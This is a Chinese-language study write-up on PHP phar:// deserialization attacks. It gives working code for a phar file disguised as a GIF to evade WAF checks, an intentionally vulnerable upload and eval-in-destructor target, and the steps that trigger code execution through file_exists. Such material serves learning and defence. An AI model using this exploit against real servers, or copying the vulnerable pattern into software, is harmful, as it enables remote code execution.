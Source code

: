 # phar://与序列化

## 原理

该方法利用phar文件会序列化储存用户自定义的 **meta-data**，在文件函数(file_exists() , file_get_contents().....)参数可控的情况下，配合phar://伪协议，不依赖unserialize()函数进行反序列化操作。

### phar文件结构

#### a stub

这个可以理解为是phar文件的一个标志，格式为 `xxx<?php xxx;__HALT_COMPILER();?>` 前面的内容不限制，但是必须以 `__HALT_COMPILER();?>` 来结尾，否则phar拓展无法识别这个文件是phar文件。

#### a container describing the contents

phar本质上就是压缩文件，在这个部分，描述了被压缩文件的权限，属性等信息。其中这里有一个用户自定义的 **meta-data** ，这是攻击的核心地方。

![](4.png)



#### file contents

需要被压缩的文件

#### signature

签名，放在末尾

## Demo

根究要求我们要创建一个phar文件，才行实现漏洞。注意：要在**php.ini**文件里，找到**phar.readonly**，将其改为**off** ,特别强调的是，前面的分号要去掉(winodws下)。如果是linux环境下，需要在 /etc/php/7.0/apache2/php.ini 和/etc/php/7.0/cli/php.ini 这两个文件都需要修改 phar.readonly 否则不能生成phar文件(被这个坑了半天。。。)

**sub.php**

```php
<?php
    class Test{
   
    }//创建一个类
    $phar = new Phar("test.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new Test();//自定义的meta-data
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("phpinfo.txt", "test"); //添加要压缩的文件
    $phar->stopBuffering();    //签名自动计算
?>
```

访问这个文件，会在根目录下生成一个test.phar文件

![](5.png)

打开这个文件，可以到Test类被序列化存储

![](1.png)

**sub_phar.php**

```php
<?php
class Test{
    function __destruct()
    {
        echo 'Test';  
    }//析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。这里用于展示Test类被反序列化后，便会调用析构函数。
}
$filename = 'phar://test.phar/phpinfo.txt';
file_exists($filename);

?>
```

![](6.png)

目前受影响的函数如下

![](2.png)

###将phar文件伪装成其他文件

因为stub对前面的内容不做限制，所以可以将`xxx<?php xxx;__HALT_COMPILER();?>`  改为`'Gif9a'.'<?php __HALT_COMPILER();?>'`  绕过某些WAF的检测。

![](3.png)

## 漏洞验证

**upload_file.html**

```html
<head>
<title>Phar_test</title>
<body>
    <form action="http://localhost/phar/upload.php" method="post" enctype="multipart/form-data">
        <input type="file" name="file" />
        <input type="submit" name="submit" />
    </form>
</body>
</head>
```

**upload.php**

```php
<?php
//验证文件类型和文件名
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
    echo "Upload: " . $_FILES["file"]["name"];
    echo "Type: " . $_FILES["file"]["type"];
    echo "Temp file: " . $_FILES["file"]["tmp_name"];
//判断文件是否存在
    if (file_exists("upload_file/" . $_FILES["file"]["name"]))
      {
      echo $_FILES["file"]["name"] . " already exists. ";
      }
    else
      {
      move_uploaded_file($_FILES["file"]["tmp_name"],
      "upload_file/" .$_FILES["file"]["name"]);
      echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
      }
    }
else
  {
  echo "Invalid file,you can only upload gif";//文件类型不符合，跳转这个分支。
  }
```

**file_un.php**

```php
<?php
$filename=$_GET['filename'];
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
file_exists($filename);
?>
```

首先我们根据file_un.php写一个exp脚本，生成phar文件。

**evil.php**

```php
<?php
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
$phar = new Phar('phar.phar');
$phar->startBuffering();
$phar->setStub('Gif9a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString('phpinfo.txt','test');
$test = new Test();
$test->output='phpinfo();';
$phar->setMetadata($test);
$phar->stopBuffering();
?>
```

### 触发机制

首先，访问evil.php在本地生成一个phar文件：**phar.phar** 接着将文件名改为phar.gif。来到upload_file.html页面，上传phar.gif文件。

![](7.png)

可以看到上传成功，来到file_un.php页面，用phar://协议，进行反序列化：

![](8.png)

可以看到，成功执行。

## 利用条件

1. phar文件能够上传服务器端
2. 要有能利用的魔术方法作为”中间人“
3. 文件操作函数的参数可控，**phar，：，/**等字符没被过滤

## END

花了几个小时，学习了这个漏洞，收获很多，对于自己的知识也得到了提升。

参考链接：https://paper.seebug.org/680/#0x01

